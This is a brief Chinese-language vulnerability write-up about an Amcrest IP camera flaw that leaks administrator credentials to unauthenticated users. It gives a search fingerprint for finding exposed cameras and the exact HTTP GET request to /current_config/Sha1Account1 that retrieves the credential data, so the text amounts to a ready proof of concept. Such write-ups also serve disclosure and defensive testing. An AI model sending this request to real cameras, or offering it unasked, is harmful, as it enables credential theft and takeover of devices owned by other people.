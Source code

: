 # Amcrest IP Camera Web Sha1Account1账号密码泄漏漏洞

### 一、漏洞描述
Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

### 二、影响版本
<font style="color:#000000;">Amcrest-IP-Camera-Web</font>

### 三、资产测绘
```plain
"Amcrest"
```

![1721627251064-39b3ae91-5e59-4760-9155-86c277d8cf99.png](./img/8XlmibRRnPef1JSZ/1721627251064-39b3ae91-5e59-4760-9155-86c277d8cf99-615793.png)

### 四、漏洞复现
```plain
GET /current_config/Sha1Account1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![1721627347286-63be31c8-de32-4cfb-bfbb-75d44228384e.png](./img/8XlmibRRnPef1JSZ/1721627347286-63be31c8-de32-4cfb-bfbb-75d44228384e-589306.png)

![1721627357667-e73bab23-0123-4255-b16f-0aae0e14ec30.png](./img/8XlmibRRnPef1JSZ/1721627357667-e73bab23-0123-4255-b16f-0aae0e14ec30-645933.png)



> 更新: 2024-08-12 17:48:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aaoz7mqhlml5nepq>